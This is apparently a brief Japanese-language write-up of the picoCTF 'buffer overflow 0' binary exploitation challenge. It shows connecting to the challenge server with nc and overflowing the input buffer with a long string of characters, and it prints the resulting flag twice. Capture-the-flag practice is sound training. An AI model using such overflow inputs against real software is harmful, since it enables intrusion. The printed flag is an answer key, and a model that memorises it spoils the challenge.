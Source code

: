 # buffer overflow 0:Binary Exploitation

Let's start off simple, can you overflow the correct buffer? The program is available [here](vuln). You can view source [here](vuln.c). Connect using: `nc saturn.picoctf.net 55002`

# Solution

とりあえず、バッファオーバーフローさせる。
```
$ nc saturn.picoctf.net 62802
Input: fffffffffffffffffffffffffffffffffffffff
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
flagが出てきてしまった。

`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

